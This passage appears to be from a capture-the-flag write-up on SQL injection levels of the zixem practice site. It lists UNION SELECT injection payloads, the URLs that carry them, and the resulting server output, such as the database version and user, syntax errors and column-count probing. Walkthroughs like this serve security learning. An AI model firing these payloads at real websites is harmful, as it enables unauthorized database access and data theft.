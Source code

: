 Ok let's extract *version()* and *user()*:  
+ ***PAYLOAD***: `1 AND 1=2 UNION SELECT version(),user(),3;--`  
##### Result: #####  
+ `https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-2)
Start:  
[https://zixem.altervista.org/SQLi/level2.php?showprofile=4](https://zixem.altervista.org/SQLi/level2.php?showprofile=4)  
> - **User-ID:** 4
> - **Username:** ZiX-M
> - **Age:** 17

+ Test with prev payload:  
+ ***PAYLOAD***: `4 AND 1=2 UNION SELECT 1,2,3,4--`  
+ `https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%20UNION%20SELECT%201,2,3,4--`
> Nothing to show.

+ It shows nothing. That means it can be take string instead of integer, so we have to add `'` into our payload:  
+ ***PAYLOAD***: `4 AND 1=2' UNION SELECT 1,2,3--`  
+ `https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1

+ OK, so we have problem with `apostrophe (')`  
+ ***PAYLOAD***: `4 AND 1=2' UNION SELECT 1,2,3--'`  
+ `https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--%27`
> The used SELECT statements have a different number of columns

+ It is ok now, but we have select wrong number of columns:  
+ ***PAYLOAD***: `4 AND 1=2' UNION SELECT 1,2,3,4--'`  
+ `https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3,4--%27`
> - **User-ID:** 1
> - **Username:** 2
> - **Age:** 3
